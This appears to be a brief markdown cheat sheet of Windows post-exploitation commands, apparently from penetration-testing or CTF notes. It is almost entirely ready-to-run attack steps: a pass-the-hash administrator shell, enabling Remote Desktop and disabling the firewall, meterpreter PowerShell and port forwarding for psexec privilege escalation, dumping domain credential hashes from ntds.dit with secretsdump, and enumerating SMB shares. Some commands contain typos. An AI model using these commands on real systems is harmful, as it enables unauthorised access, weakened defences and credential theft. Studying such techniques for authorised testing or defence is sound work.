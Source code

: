 # Misc windows stuff

```sh
winexe - U jenkins/administrator //xxx.xxx.xxx cmd.exe
pth-winexe -U jenkins/administrator //xxx.xxx.xxx.xxx cmd.exe
```

Enable Remote Desktop:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall set service remotedesktop enable
```

Enable Remote assistance:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable
```

Disable firewall

```sh
netsh firewall set opmode disable
```

## List alternate data streams

```sh
dir /r
powershell (Get-Content hm.txt -Stream root.txt)
```

## msf meterpreter powershell

You can load powershell in meterpreter

```ssh
meterpreter> load powerhsell 
meterpreter> powershell_shell
```

##  msf meterpreter portfwd

You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.

```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Dump secrets from hive

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

Check available chares 

```sh
smbmap -u 'username' -p 'password' -d 'domain' -H xx.xx.xx.xx
```
